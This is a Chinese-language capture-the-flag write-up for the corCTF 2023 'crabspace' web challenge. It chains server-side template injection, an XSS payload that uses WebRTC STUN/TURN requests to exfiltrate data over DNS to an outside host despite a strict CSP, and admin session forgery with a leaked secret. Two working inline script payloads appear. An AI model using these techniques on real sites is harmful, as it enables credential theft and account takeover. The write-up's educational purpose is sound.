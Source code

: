```yaml
---
tags: 
  - Rust
  - TODO
---
```



# corctf 2023

## crabspace

题目是用 Rust 写的， axum 作为 http Server， tera 作为模板渲染引擎。flag 是 admin 的 pass，给了一个 adminbot，所以存在 xss。

提供的操作很简单，注册，登录，写内容到 space。

### SSTI 拿 admin id

审计代码可以发现存在一处 SSTI:

![](https://cdn.silente.top/img/202308150007797.png)

即对于用户可控的 space，先对其进行了一次 Tera::one_off 渲染，然后再将结果给插入 `space` 上下文中进行最后的渲染。这里由于 space 可控，所以可以构造 SSTI。

效果：

![](https://cdn.silente.top/img/202308150008876.png)

![](https://cdn.silente.top/img/202308150009920.png)

在 pre request 处理中可以看到已经把 user 除了 pass 的其他信息都放在了 ctx 中：

![](https://cdn.silente.top/img/202308150037792.png)

所以能够直接使用 `{{ user.id }}` 来拿到当前 user 的 uuid。但这里有个问题是如何带出 admin 的 uuid，看来需要用到 xss 的方法。

### XSS dns 外带

看看策略：

![](https://cdn.silente.top/img/202308142136554.png)

首先是熟悉的 CSP 策略，可以得到：

> - `style` 只信任同域名的资源
> - `script` 只加载内联脚本资源
> - 禁止在 iframe 中嵌入页面
> - 其他资源不允许加载

然后是 COOP 策略：`same-origin` 不允许 pop up。尝试在 space 里 `location.href = '/'` 时发现被屏蔽，看源码可以知道：

![](https://cdn.silente.top/img/202308142359326.png)

也就是说我们能够写内联 js 脚本，但其内容会放在一个完全隔离的上下文环境中，并且由于 `frame-ancestors 'none'` 以及 COOP 策略的限制，我们不能使用 `window.open` 之类的方法弹出新窗口，也不能使用 `window.parent` 之类的方法访问父窗口。

目前的一个想法是看能否使用 `postMessage` 之类的方法来进行通信，但是由于 default-src 默认 none， connect-src 同样是 none。

![](https://cdn.silente.top/img/202308151015849.png)

翻一翻 hacktricks 可以找到对于 WebRTC 的利用：

![](https://cdn.silente.top/img/202308151013620.png)

不过这里下面也说了似乎不太可能被利用了。

尝试了一下:

```html
<script>pc=new RTCPeerConnection({"iceServers":[{"urls":["turn:114514.pretzel186.messwithdns.com"],"username":"123","credential":"."}]});pc.createOffer().then(a=>pc.setLocalDescription(a));</script>
```

可以发现

![](https://cdn.silente.top/img/202308151409061.png)

不知道为什么行不通。在官方 wp 中可以看到也是利用了 WebRTC，但是利用了 DNS Prefetch:

```html
<script>pc=new RTCPeerConnection({"iceServers":[{"url":"stun:se.pretzel186.messwithdns.com"}]});pc.createOffer({offerToReceiveAudio:1}).then(a=>pc.setLocalDescription(a));</script>
```

有区别的地方在于首先将 turn 换成了 stun 来节省长度（限制了 space 长度 <= 200）；然后是给 `createOffer` 提供了 offerToReceiveAudio 参数：

![](https://cdn.silente.top/img/202308151623691.png)

这样 RTC 便能够主动地解析 dns 地址。然后跟 SSTI 结合就能够达到外带 admin id 的效果。

### 伪造 admin session

继续审计代码，可以发现有个 admin 路由，功能是展示当前所有的 User 信息：

```rust
#[derive(Serialize)]
struct UserView {
    id: Uuid,
    name: String,
    following: Vec<User>,
    followers: Vec<User>,
    space: String,
}

#[derive(Deserialize)]
struct AdminQuery {
    sort: Option<String>,
}

impl From<User> for UserView {
    fn from(u: User) -> Self {
        UserView {
            id: u.id,
            name: u.name,
            following: u
                .following
                .iter()
                .filter_map(|f| USERS.get(f).map(|f| f.clone()))
                .collect(),
            followers: u
                .followers
                .iter()
                .filter_map(|f| USERS.get(f).map(|f| f.clone()))
                .collect(),
            space: u.space,
        }
    }
}
```

![](https://cdn.silente.top/img/202308151630894.png)

可以发现 UserView 里面使用的是带有 pass 的 `Vec<User>`，而 tera 渲染时提供的 sort 能够让我们来泄露出 admin 的 pass。所以目前的问题是如何拿到 admin 的身份。

Tera 还有一个 Built-ins Func 是 `get_env`:

![](https://cdn.silente.top/img/202308151658429.png)

可以直接拿到 `SECRET` 变量来伪造 session 信息。

```rust
let secret: [u8; 64] = std::env::var("SECRET")
    .map(|p| p.as_bytes().try_into().expect("SECRET must be 64 bytes"))
    .unwrap_or_else(|_| [(); 64].map(|_| rand::thread_rng().gen()));
let session_layer = SessionLayer::new(store, &secret).with_secure(false);
```

查看中间件处理可以发现会使用 uuid 来拿到 user 信息，那么使用前面已经得到的 admin id 便能够伪造出 admin 的 session。

![](https://cdn.silente.top/img/202308151700856.png)

翻阅源码可以找到 axum session 的签名方法：

![](https://cdn.silente.top/img/202308151706186.png)

所以最后使用伪造的 admin 去访问 admin view，通过改变注册用户的 pass 以及 sort 参数来泄露出 flag。

### Ref

- https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP
- https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
- https://source.chromium.org/chromium
